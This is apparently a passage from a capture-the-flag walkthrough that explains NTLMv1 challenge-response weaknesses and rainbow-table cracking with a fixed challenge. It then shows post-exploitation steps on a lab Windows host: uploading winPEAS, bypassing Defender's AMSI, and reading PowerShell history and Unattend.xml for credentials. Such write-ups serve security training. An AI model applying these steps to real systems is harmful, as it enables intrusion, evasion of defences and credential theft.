 > **NTLMv1** uses a weak **DES** encryption algorithm that is fast to decrypt, making it vulnerable to brute-forcing, while **NTLMv2** uses the slower **HMAC-MD5** that can better resist these attacks, since decrypting can’t take place in real time.

> **NTLMv1 Challenge**: The challenge length is 8 bytes and the response is 24 bytes long. The hash **NT** (16bytes) is divided in 3 parts of 7bytes each (7B + 7B + (2B+0x00*5)): the last part is filled with zeros. Then, the **challenge** is ciphered separately with each part and the resulting ciphered bytes are joined. Total: 8B + 8B + 8B = 24Bytes.

> Problems:

- Lack of randomness
- The 3 parts can be attacked separately to find the NT hash
- DES is crackable
- The 3º key is composed always by 5 zeros.

> Given the same challenge the response will be same. So, you can give as a challenge to the victim the string "**1122334455667788**" and attack the response used precomputed rainbow tables.

> **Victime Machine**:

```cmd
whoami /priv
whoami /all
net users
net user henry.vinson_adm
#   --> *Remote Management Use
...

systeminfo      # :(
systemInfo      # :(
```

> **Attacker Machine**:

```bash
mv ~/Downloads/winPEASany.exe ./winPEAS.exe
```

> **Victime Machine**:

```cmd
upload winPEAS.exe
.\winPEAS.exe                     # :( Windows Defender

menu
Bypass-4MSI

Invoke-Binary winPEAS.exe

#    --> Analyzing Windows Files Files (limit 70)
# C:\Users\henry.vinson_adm\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt

#    --> Enumerating NTLM Settings
# [!] NTLM clients support NTLMv1!
# [!] NTLM services on this machine support NTLMv1!

#    --> Unattend Files
# C:\Windows\Panther\Unattend.xml

#    --> Found Windows Files
# C:\Users\All Users\USOShared\Logs\System
# C:\Users\henry.vinson_adm\NTUSER.DAT
# C:\Users\Default\NTUSER.DAT

type C:\Users\henry.vinson_adm\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
type C:\Windows\Panther\Unattend.xml
```